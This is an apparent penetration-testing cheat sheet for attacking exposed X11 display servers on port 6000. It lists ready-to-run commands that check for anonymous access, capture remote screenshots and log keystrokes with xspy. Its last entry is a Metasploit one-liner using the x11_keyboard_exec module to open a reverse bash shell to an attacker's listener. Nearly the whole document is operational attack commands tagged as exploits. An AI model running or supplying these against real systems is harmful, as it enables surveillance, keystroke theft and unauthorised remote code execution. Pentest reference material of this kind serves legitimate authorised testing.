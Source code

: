 # X11

% x11, 6000
#platform/linux  #target/remote #protocol/x11 #port/6000

## x11 - check anonymous connection
#cat/ATTACK/CONNECT  
```
nmap -sV --script x11-access -p <port> <ip>
```

## x11 - verify connection
#cat/RECON  
```
xdpyinfo -display <ip>:<display>
```

## x11 - verify connection (2)
#cat/RECON 
```
xwininfo -root -tree -display <ip>:<display>
```

## X11 - screenshot
#cat/ATTACK/EXPLOIT 
```
xwd –root –screen –silent –display <ip>:<display> > screenshot.xwd; convert screenshot.xwd screenshot.png
```

## X11 - keylogging
#cat/ATTACK/EXPLOIT 
```
xspy <ip>
```

## X11 - remote desktop view
#cat/ATTACK/CONNECT 
```
xrdp <ip>:<display>
```

## X11 - msf reverse shell
#cat/ATTACK/EXPLOIT 
```
msfconsole -x "use exploit/unix/x11/x11_keyboard_exec; set RHOSTS <rhost>; set payload cmd/unix/reverse_bash; set lhost <lhost>; set lport <lport>; exploit"
```

= display: 0
